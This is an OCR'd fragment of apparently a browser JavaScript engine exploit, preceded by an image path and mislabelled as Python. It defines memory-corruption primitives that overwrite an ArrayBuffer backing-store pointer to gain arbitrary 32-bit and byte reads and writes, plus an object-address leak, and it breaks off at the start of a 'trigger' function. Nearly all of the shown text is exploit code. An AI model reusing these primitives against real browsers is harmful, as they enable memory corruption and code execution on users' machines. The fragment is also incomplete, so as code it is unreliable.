 ```python
        this.page_buffer.slot = obj;

        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);

    }



    this.setPtr = function (addr) {

        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);

    }



    this.read32 = function (addr) {

        this.setPtr(addr);

        return this.page_view.getUint32(0, true, ...this.prevent_opt);

    }



    this.write32 = function (addr, value) {

        this.setPtr(addr);

        this.page_view.setUint32(0, value, true, ...this.prevent_opt);

    }



    this.write8 = function (addr, value) {

        this.setPtr(addr);

        this.page_view.setUint8(0, value, ...this.prevent_opt);

    }



    this.setBytes = function (addr, content) {

        for (var i = 0; i < content.length; i++) {

            this.write8(addr + i, content[i]);

        }

    }

    return this;

}



function trigger() {
```